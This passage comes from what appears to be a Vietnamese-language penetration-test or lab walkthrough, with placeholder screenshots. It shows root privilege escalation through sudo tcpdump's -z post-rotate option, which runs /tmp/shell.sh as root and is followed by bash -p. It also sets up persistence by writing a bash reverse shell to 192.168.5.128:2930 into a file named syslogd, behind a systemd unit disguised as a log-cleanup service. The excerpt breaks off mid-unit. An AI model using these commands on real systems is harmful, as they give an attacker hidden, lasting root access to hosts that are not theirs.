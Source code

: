 Lắng nghe trên máy tấn công cổng 2930
Thực thi câu lệnh 
![alt text](image-74.png)
Lưu câu lệnh thực thi lênh file shell.sh 
![alt text](image-75.png)

Chạy tcpdump dưới quyền root để thực thi file shell bằng quyền root , và thực thi câu lệnh trong file shell để nâng quyền 
```bash
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell.sh -Z root
/bin/bash -p
```
![alt text](image-76.png)

### Duy tri ket noi
Duy trì kết nối 
Ta sẽ tạo một service như thể nó là hệ thống hợp pháp, nhưng thực chất là shell reverse hoặc quyền root ẩn.
```bash
┌──(root㉿kali)-[/home/userktxm2]
└─# echo '#!/bin/bash                   
bash -i >& /dev/tcp/192.168.5.128/2930 0>&1' > /usr/local/bin/syslogd
chmod +x /usr/local/bin/syslogd
```
```bash
cat <<EOF > /etc/systemd/system/systemd-logclean.service
[Unit]
Description=System Logging Cleanup Service
After=network.target
```